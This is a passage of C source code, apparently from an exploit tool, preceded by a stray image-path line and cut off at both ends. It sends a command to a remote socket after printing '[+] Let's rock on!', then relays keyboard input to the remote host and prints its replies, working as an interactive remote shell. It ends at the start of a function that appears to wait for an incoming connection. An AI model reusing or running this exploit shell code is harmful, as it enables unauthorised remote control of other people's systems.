       fprintf(stdout, "[+] Let's rock on!\n");

      size = send(fd, command, strlen(command), 0);
      if(size < 0)
      {
        fprintf(stderr,"[-] %s\n",strerror(errno));
        close(fd);
        exit(1);
      }

      for (;;)
      {
        FD_ZERO(&fds);
        FD_SET(0, &fds);
        FD_SET(fd, &fds);

        if (select(255, &fds, NULL, NULL, NULL) == -1)
        {
          fprintf(stderr,"[-] %s\n",strerror(errno));
          close(fd);
          exit(1);
        }

        memset(sock_buf, 0, sizeof(sock_buf));

        if (FD_ISSET(fd, &fds))
        {
          if (recv(fd, sock_buf, sizeof(sock_buf), 0) == -1)
          {
          fprintf(stderr, "[-] Connection closed by remote host,exiting...\n");
          close(fd);
          exit(1);
          }

          fprintf(stderr, "%s", sock_buf);
        }

        if (FD_ISSET(0, &fds))
        {
          read(0, sock_buf, sizeof(sock_buf));
          write(fd, sock_buf, strlen(sock_buf));
        }
      }
      return 0;
    }


    void
    wait_connection(int port)
    {
      struct sockaddr_in s;
      int size, fd, fd2, i, r, cancel = 0;
      char data[1024], version[32], request[512];
      char *ptr;
      long host = 0;
